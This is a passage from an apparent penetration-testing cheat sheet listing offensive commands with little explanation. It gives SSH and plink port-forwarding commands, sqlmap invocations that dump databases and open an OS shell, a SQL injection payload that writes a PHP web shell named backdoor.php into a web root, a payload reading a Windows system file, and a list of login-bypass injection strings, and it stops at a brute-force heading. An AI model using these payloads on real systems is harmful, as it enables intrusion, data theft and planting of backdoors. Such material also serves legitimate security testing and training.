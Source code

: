 Dynamic port forwarding


ssh -D <local proxy port> -p <remote port> <target>
```

Plink local port forwarding


plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>
```

**SQL Injection**


# sqlmap crawl  
sqlmap -u http://10.10.10.10 --crawl=1

# sqlmap dump database  
sqlmap -u http://10.10.10.10 --dbms=mysql --dump

# sqlmap shell  
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell
```

Upload php command injection file


union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Load file


union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

Bypasses


' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

**Brute force**

John the Ripper shadow file
